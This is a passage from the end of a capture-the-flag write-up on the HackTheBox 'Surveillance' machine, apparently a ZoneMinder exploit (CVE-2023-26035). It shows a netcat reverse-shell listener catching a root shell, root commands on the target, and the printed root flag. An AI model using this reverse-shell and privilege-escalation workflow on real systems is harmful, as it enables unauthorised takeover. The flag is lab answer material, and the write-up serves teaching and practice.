 ```bash
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-1.dump. This may take several minutes.
bash: cannot set terminal process group (1090): Inappropriate ioctl for device
bash: no job control in this shell
root@surveillance:/usr/share/zoneminder/www# cd ~
cd ~
root@surveillance:~# whoami
whoami
root@surveillance:~# id
id
```
{: .nolineno}
As you can see the shell is not working properly so I redirected to port 4444 as a reverse shell and now it is working file ->
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Surveillance/CVE-2023-26035]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.181] from (UNKNOWN) [10.10.11.245] 52892
/bin/sh: 0: can not access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd ~
# ls -al
total 40
drwx------  7 root root 4096 Feb 18 16:32 .
drwxr-xr-x 18 root root 4096 Nov  9 13:19 ..
lrwxrwxrwx  1 root root    9 Sep  6 10:33 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Sep 19 11:32 .cache
drwxr-xr-x  3 root root 4096 Sep 19 11:31 .config
drwxr-xr-x  3 root root 4096 Sep  8 00:05 .local
lrwxrwxrwx  1 root root    9 Oct 17 16:43 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Feb 18 16:32 root.txt
drwxr-xr-x  2 root root 4096 Oct 21 23:19 .scripts
drwx------  2 root root 4096 Nov  7 20:07 .ssh
# cat root.tx
cat: root.tx: No such file or directory
# cat root.txt
8022945623be5ae2e721aca14e22693e
# 
```
{: .nolineno}
I am root now !!



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }